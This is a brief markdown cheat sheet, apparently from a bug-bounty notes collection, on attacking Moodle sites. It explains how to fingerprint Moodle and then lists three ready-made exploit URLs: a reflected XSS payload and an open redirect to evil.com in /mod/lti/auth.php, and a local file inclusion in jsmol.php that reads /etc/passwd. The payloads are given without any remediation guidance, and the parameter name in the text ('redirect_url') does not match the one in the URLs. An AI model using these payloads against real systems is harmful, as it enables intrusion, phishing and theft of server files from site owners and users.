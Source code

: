 # Moodle Common Bugs

## Introduction
What would you do if you came across a website that uses Moodle?

## How to Detect
If you visit `https://target.com` and see the source code, you will see `<meta name="keywords" content="moodle,`

1. Reflected XSS in /mod/lti/auth.php via "redirect_url" parameter
```
https://target.com/mod/lti/auth.php?redirect_uri=javascript:alert(1)
```

2. Open redirect in /mod/lti/auth.php in "redirect_url" parameter

```
https://target.com/mod/lti/auth.php?redirect_uri=https://evil.com
```

3. LFI /filter/jmol/js/jsmol/php/jsmol.php in "query" parameter

```
https://target.com/filter/jmol/js/jsmol/php/jsmol.php?call=getRawDataFromDatabase&query=file:///etc/passwd
```